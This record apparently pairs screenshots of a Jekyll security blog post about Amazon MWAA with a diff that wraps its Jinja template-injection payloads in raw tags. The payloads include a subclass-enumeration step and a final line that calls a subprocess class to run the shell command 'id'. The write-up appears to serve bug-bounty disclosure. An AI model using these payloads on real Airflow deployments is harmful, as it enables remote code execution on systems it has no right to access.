

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2025-7-28-amazonmwaa.md, in a window 1280 px wide and 900 px high, scrolled down 2052 px. Shown: the whole window, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-7-28-amazonmwaa.md

````diff
--- a/_posts/2025-7-28-amazonmwaa.md
+++ b/_posts/2025-7-28-amazonmwaa.md
@@ -37,9 +37,7 @@ Then, I created a new DAG file (which are actually Python files with the typical
 
 ```
 doc_md="""
-`{{ 3*3 }}`
 {% raw %}{{ 3*3 }}{% endraw %}
-&#123;&#123; 3*3 &#125;&#125;
 """
 ```
 
@@ -51,7 +49,7 @@ Next, the list of classes using the same payload from the Securelayer7 blog:
 
 ```
 doc_md="""
-`{{ ''.__class__.__mro__[1].__subclasses__() }}`
+{% raw %}{{ ''.__class__.__mro__[1].__subclasses__() }}{% endraw %}
 """
 ```
 
@@ -75,7 +73,7 @@ In my case it is the index number 309, so I will first print the name of the cla
 
 ```
 doc_md="""
-`{{ ''.__class__.__mro__[1].__subclasses__()[309].__name__ }}`
+{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[309].__name__ }}{% endraw %}
 """
 ```
 
@@ -87,7 +85,7 @@ If the class name from the previous step is correct, the index is the correct on
 
 ```
 doc_md="""
-{{ ''.__class__.__mro__[1].__subclasses__()[309]('id', shell=True, stdout=-1).communicate() }}
+{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[309]('id', shell=True, stdout=-1).communicate() }}{% endraw %}
 """
 ```
 
@@ -235,11 +233,12 @@ But still, I am happy I could order a cool sweater I hope I will be receiving in
 
 <br>
 
+
 --------------------------
 
 ## Sources
 
-- [Securelayer7 blog](https://blog.securelayer7.net/arbitrary-code-execution-in-apache-airflow/).
+- [Securelayer7 blog](https://blog.securelayer7.net/arbitrary-code-execution-in-apache-airflow/)
 
 - [HackerOne report](https://hackerone.com/reports/3217840)
 
````
